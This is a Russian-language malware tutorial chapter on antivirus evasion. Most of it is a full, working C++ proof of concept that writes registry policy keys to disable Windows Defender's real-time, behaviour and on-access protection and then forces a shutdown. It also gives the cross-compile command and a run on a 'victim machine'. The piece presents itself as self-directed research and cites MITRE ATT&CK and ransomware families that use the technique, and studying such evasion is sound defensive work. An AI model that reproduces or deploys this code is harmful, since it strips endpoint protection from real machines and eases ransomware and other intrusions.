









\newpage
\subsection{60. Обход антивирусов: часть 7. Отключение Windows Defender. Простой пример на C++.}

﷽

{width="80%"}    

Этот пост является результатом самостоятельного исследования одного из самых распространённых трюков, используемых вредоносным ПО.

### Windows Defender

Антивирусное программное обеспечение Windows Defender (ныне известное как Microsoft Defender Antivirus) защищает ваш компьютер от внешних угроз. Microsoft разработала этот антивирус для защиты компьютеров под управлением `Windows 10` от вирусных угроз.

Этот антивирус предустановлен на всех версиях `Windows 10`.

Чтобы избежать возможного обнаружения их вредоносного ПО, инструментов и активностей, злоумышленники могут изменять или отключать средства безопасности. Например, Windows Defender.

### практический пример

Попробуем отключить антивирус Windows Defender через изменение реестра Windows. Прежде всего, важно помнить, что для отключения требуются права администратора. В активном режиме Microsoft Defender Antivirus работает как основное антивирусное решение устройства. Обнаруженные угрозы устраняются, а информация о них отображается в отчётах безопасности вашей организации и в приложении "Безопасность Windows". Чтобы отключить все это, достаточно изменить ключи реестра:   


```cpp
LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, 
"SOFTWARE\\Policies\\Microsoft\\Windows Defender", 
0, KEY_ALL_ACCESS, &key);
if (res == ERROR_SUCCESS) {
  RegSetValueEx(key, "DisableAntiSpyware", 0, 
  REG_DWORD, (const BYTE*)&disable, sizeof(disable));
  RegCreateKeyEx(key, "Real-Time Protection", 0, 0, 
  REG_OPTION_NON_VOLATILE, KEY_ALL_ACCESS, 0, &new_key, 0);
  RegSetValueEx(new_key, "DisableRealtimeMonitoring", 0, 
  REG_DWORD, (const BYTE*)&disable, sizeof(disable));
  RegSetValueEx(new_key, "DisableBehaviorMonitoring", 0, 
  REG_DWORD, (const BYTE*)&disable, sizeof(disable));
  RegSetValueEx(new_key, "DisableScanOnRealtimeEnable", 0, 
  REG_DWORD, (const BYTE*)&disable, sizeof(disable));
  RegSetValueEx(new_key, "DisableOnAccessProtection", 0, 
  REG_DWORD, (const BYTE*)&disable, sizeof(disable));
  RegSetValueEx(new_key, "DisableIOAVProtection", 0, 
  REG_DWORD, (const BYTE*)&disable, sizeof(disable));

  RegCloseKey(key);
  RegCloseKey(new_key);
}
```

Но, как я уже писал, для этого требуются права администратора, поэтому мы создаем функцию, которая проверяет это:

```cpp
// check for admin rights
bool isUserAdmin() {
  bool isElevated = false;
  HANDLE token;
  TOKEN_ELEVATION elev;
  DWORD size;
  if (OpenProcessToken(GetCurrentProcess(), 
  TOKEN_QUERY, &token)) {
    if (GetTokenInformation(token, TokenElevation, 
    &elev, sizeof(elev), &size)) {
       isElevated = elev.TokenIsElevated;
    }
  }
  if (token) {
    CloseHandle(token);
    token = NULL;
  }
  return isElevated;
}
```

Начиная с Windows Vista, Контроль учётных записей пользователей (UAC) стал важной функцией для снижения некоторых рисков, связанных с повышением привилегий. В условиях UAC учётные записи группы локальных администраторов имеют два токена доступа: один с привилегиями стандартного пользователя, а другой с привилегиями администратора.   

Все процессы (включая проводник Windows - `explorer.exe`) запускаются с использованием стандартного токена, который ограничивает права и привилегии процесса. Если пользователь хочет получить повышенные привилегии, он может выбрать *"Запуск от имени администратора"* для выполнения процесса. Этот выбор наделяет процесс всеми административными привилегиями и правами.   

Сценарий или исполняемый файл обычно выполняется с токеном стандартного пользователя из-за фильтрации токенов доступа UAC, если только он не был запущен *"от имени администратора"* в режиме повышенных привилегий. Как разработчику или хакеру, важно понимать, в каком режиме вы работаете.   

Итак, полный PoC-скрипт для отключения Windows Defender выглядит следующим образом:   


```cpp
/*
hack.cpp
disable windows defender dirty PoC
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2022/06/05/malware-av-evasion-7.html
*/

#include <cstdio>
#include <windows.h>

// check for admin rights
bool isUserAdmin() {
  bool isElevated = false;
  HANDLE token;
  TOKEN_ELEVATION elev;
  DWORD size;
  if (OpenProcessToken(GetCurrentProcess(), 
  TOKEN_QUERY, 
  &token)) {
    if (GetTokenInformation(token, TokenElevation, 
    &elev, sizeof(elev), &size)) {
       isElevated = elev.TokenIsElevated;
    }
  }
  if (token) {
    CloseHandle(token);
    token = NULL;
  }
  return isElevated;
}

// disable defender via registry
int main(int argc, char* argv[]) {
  HKEY key;
  HKEY new_key;
  DWORD disable = 1;

  if (!isUserAdmin()) {
    printf("please, run as admin.\n");
    return -1;
  }

  LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, 
  "SOFTWARE\\Policies\\Microsoft\\Windows Defender", 0, 
  KEY_ALL_ACCESS, &key);
  if (res == ERROR_SUCCESS) {
    RegSetValueEx(key, "DisableAntiSpyware", 0, 
    REG_DWORD, (const BYTE*)&disable, sizeof(disable));
    RegCreateKeyEx(key, "Real-Time Protection", 0, 
    0, REG_OPTION_NON_VOLATILE, 
    KEY_ALL_ACCESS, 0, &new_key, 0);
    RegSetValueEx(new_key, "DisableRealtimeMonitoring", 
    0, REG_DWORD, (const BYTE*)&disable, sizeof(disable));
    RegSetValueEx(new_key, "DisableBehaviorMonitoring", 
    0, REG_DWORD, (const BYTE*)&disable, sizeof(disable));
    RegSetValueEx(new_key, "DisableScanOnRealtimeEnable", 
    0, REG_DWORD, (const BYTE*)&disable, sizeof(disable));
    RegSetValueEx(new_key, "DisableOnAccessProtection", 
    0, REG_DWORD, (const BYTE*)&disable, sizeof(disable));
    RegSetValueEx(new_key, "DisableIOAVProtection", 
    0, REG_DWORD, (const BYTE*)&disable, sizeof(disable));

    RegCloseKey(key);
    RegCloseKey(new_key);
  }

  printf("perfectly disabled :)\n");
  printf("press any key to restart to apply them.\n");
  system("pause");
  system("C:\\Windows\\System32\\shutdown /s /t 0");
  return 1;
}
```

### демонстрация

Давайте посмотрим, как это работает. Прежде всего, проверим текущий статус Windows Defender:    

{width="80%"}    

А также проверим ключи реестра:    

```powershell
reg query "HKLM\Software\Policies\Microsoft\Windows Defender" /s
```

{width="80%"}    

Как видите, у нас стандартные ключи реестра.   

Теперь скомпилируем наш скрипт на машине атакующего:

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

{width="80%"}    

И запустим его на машине жертвы:

```powershell
.\hack.exe
```

{width="80%"}    

Согласно логике программы, компьютер выключается. Затем включаем его снова и проверяем:

```powershell
reg query "HKLM\Software\Policies\Microsoft\Windows Defender" /s
```

{width="80%"}    

{width="80%"}    

Для проверки откроем Центр безопасности Windows Defender:    

{width="80%"}    

{width="80%"}    

Как видите, всё сработало идеально!    

Однако, конечно, этот метод не нов. В наше время злоумышленники могут изменять артефакты, используемые средствами безопасности. Продукты безопасности могут загружать свои собственные модули и/или изменять загруженные другими процессами модули для сбора данных. Атакующие могут снимать эти хуки или иным образом модифицировать функции инструментов, чтобы избежать обнаружения.    

Этот метод используется в дикой природе такими программами-вымогателями, как [Maze](https://attack.mitre.org/software/S0449/) и [Pysa](https://attack.mitre.org/software/S0449/).    

В следующей части я изучу и исследую метод, суть которого заключается в лишении антивирусного процесса привилегий, благодаря которым он может проверять файлы на наличие вредоносного ПО.   

[MITRE ATT&CK. Impair Defenses: Disable or Modify Tools](https://attack.mitre.org/techniques/T1562/001/)    
[Gorgon Group](https://attack.mitre.org/groups/G0078/)    
[H1N1 Malware](https://attack.mitre.org/software/S0132/)    
[Maze ransomware](https://attack.mitre.org/software/S0449/)    
[Pysa ransomware](https://attack.mitre.org/software/S0449/)     
[source code on github](https://github.com/cocomelonc/2022-06-05-malware-av-evasion-7)    
